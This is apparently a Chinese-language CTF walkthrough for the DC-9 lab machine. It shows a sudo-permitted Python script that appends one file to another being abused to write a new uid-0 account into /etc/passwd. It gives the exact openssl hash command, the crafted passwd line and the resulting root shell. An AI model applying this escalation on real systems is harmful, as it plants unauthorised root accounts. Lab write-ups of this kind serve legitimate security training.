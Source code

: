 看看 test.py 的逻辑，是把一个文件的内容复制追加到另一个文件中。于是我们可以自己生成一个账号密码，sudo 运行 test.py 以 root权限复制到 /etc/passwd 中

```bash
fredf@dc-9:/opt/devstuff/dist/test$ cat /opt/devstuff/test.py
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()

```

## 步骤

1、本地生成密码

```bash
openssl passwd -1 -salt zf1yolo 123456
```

```
$1$zf1yolo$oULk89mtehUjxLPH9cRSn1
```

2、整理格式，把账号密码写入临时文件里

```
echo 'zf1yolo:$1$zf1yolo$oULk89mtehUjxLPH9cRSn1:0:0:root:/bin/bash' >> /tmp/zf1yolo
```

3、然后 sudo 运行 test 脚本

```bash
sudo ./test /tmp/zf1yolo /etc/passwd
```

4、切换到 zf1yolo 用户，成功得到 root 权限

```bash
fredf@dc-9:/opt/devstuff/dist/test$ su zf1yolo
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
```
